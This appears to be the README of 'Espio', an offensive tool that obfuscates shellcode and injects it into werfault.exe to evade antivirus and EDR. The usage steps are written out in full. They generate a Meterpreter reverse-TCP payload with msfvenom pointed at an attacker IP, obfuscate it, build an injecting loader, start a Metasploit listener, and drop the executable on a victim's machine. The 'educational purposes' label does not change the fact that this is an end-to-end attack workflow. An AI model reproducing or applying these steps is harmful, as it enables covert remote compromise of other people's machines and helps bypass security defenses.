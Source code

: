 # Espio (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Obfuscation - base64 encoding and XOR encryption with a randomly generated key.
- Sandbox Bypass - custom sleep function.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Requirements
Espio requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to use.

## Usage
1. Clone the repository:
```bash
git clone <url>
```

2. Generate the shellcode. In this demonstration we will be using msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it:
```bash
python3 obfuscator.py shellcode
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Note: Our shellcode then be obfuscated to **obfuscatedPayload.bin** with the **key.bin** key and saved in loader/Espio.

4. Open loader/Espio.sln, the Visual Studio solution file.

5. Build The project (Recommended: change the build configuration from Debug to Release).<br>Note: The executable file will be located at loader/x64/Release/Espio.exe or loader/x64/Debug/Espio.exe, depends on the build configuration.

6. On the attacker's machine, listen for TCP connections on the defined port. In our case, run metasploit's multi/handler on port 1337.

7. Drop the executable onto the victim's machine and run it.

## Authors and acknowledgment
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[RonKon](https://github.com/RonKonis) - Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
